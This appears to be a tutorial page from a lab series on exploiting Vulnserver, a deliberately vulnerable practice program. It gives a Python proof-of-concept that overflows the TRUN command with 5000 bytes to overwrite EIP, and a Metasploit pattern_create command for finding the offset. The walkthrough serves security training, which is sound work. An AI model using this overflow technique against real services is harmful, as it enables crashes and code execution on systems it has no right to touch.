 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

	Vulnserver TRUN Python Script: POC
		#!/usr/bin/python
		import socket
		import os
		import sys

		crash="A"*5000

		buffer="TRUN /.:/"
		buffer+=crash

		print "[*] Sending evil TRUN request to VulnServer, OS-42279"
		expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
		expl.connect(("192.168.83.128", 9999))
		expl.send(buffer)
    expl.close()

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/vulnserver/trun-eip-overwrite-media/trun-eip-overwrite-media-01)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.
	> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.
